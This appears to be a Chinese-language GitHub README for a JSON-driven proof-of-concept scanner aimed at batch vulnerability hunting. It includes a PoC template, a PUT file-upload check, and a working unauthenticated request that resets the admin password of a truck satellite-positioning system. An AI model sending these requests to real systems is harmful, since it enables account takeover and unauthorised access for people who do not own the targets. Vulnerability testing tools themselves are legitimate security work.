



## ANG's Not Goby!


## 史上POC最简洁的漏洞复现工具（狗头保命）

独自开发的一款poc扫描、漏洞复现的工具，后续会去兼容goby以及其他工具的poc，**并且加入浏览器爬虫以及被动扫描功能，将来会陆续开发GUI版和BurpSuite插件版，目前处于测试版本**，这款工具的poc编写可能算是比较简洁明了的工具了，可执行文件报错就使用ang.py或者test.py，由于近期工作较忙，其他功能后续会开发
先看效果（可以用来批量挖SRC）


使用的是JSON格式的POC，放在poc目录下面即可，代理可以用BurpSuite的代理，内容基本上是请求包内容，没有额外的东西，比较纯净

以下是模板poc

```
{
	#	漏洞名称
    "name": "",
    #	请求模式（目前支持get post put，但是还没验证过get，只用了post和put）
    "method": "",
    #	poc编写时间（不重要）
    "time": "",
    #	GET请求路径
    "path": "",
    #	可以设置梯子或者其他代理，默认使用burpsuite代理
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
     #	无需多言，请求头
    "headers": {
    },
    #	post以及put请求的data
    "data": "",
    #	用于检查是否存在漏洞
    "check": {
    	#	状态码
        "code":"200",
        #	返回包值的个数，不需要全写上，和下面的value个数对应上就ok
        "value_num": "0",
        #	返回包内容，例如true、200
        "value1":""
    }
}
```


```json
{
    "name": "PUT上传",
    "method": "PUT",
    "time": "2025/03/11",
    "path": "/test.txt",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Length": "4",
        "Connection": "keep-alive"
    },
    "data": "test",
    "check": {
        "code":"200",
        "value_num": "0",
        "value1":""
    }
}
```

```json
{
    "name": "卡车卫星定位系统create存在未授权密码重置漏洞",
    "method": "POST",
    "time": "2025/03/07",
    "path": "/user/create",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "fieldContent-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    },
    "data": {
        "account": "admin",
        "id": "1",
        "password": "test123456",
        "passwordRepeat": "test123456",
        "groupName": "111",
        "roleid": "5",
        "validend": "",
        "phone": "",
        "email": "",
        "chncount": "36",
        "flowType": "1",
        "oldFlowType": "",
        "flowVal": "",
        "flowAlarmVal": "",
        "oldFlowAlarmVal": "",
        "logContent": "111",
        "guid": "222",
        "token": "xxx"
    },
    "check": {
        "code":"200",
        "value_num": "1",
        "value1":"true"
    }
}
```

以下是基础的使用方法，os功能还在开发ing



### scan 模块，-U是批量扫描，指定一个TXT文件


-u 是指定一个目标进行扫描


### download 模块

用于下载文件（目前支持http/https代理）



用于下载文件，可以配合其他脚本爬取资源



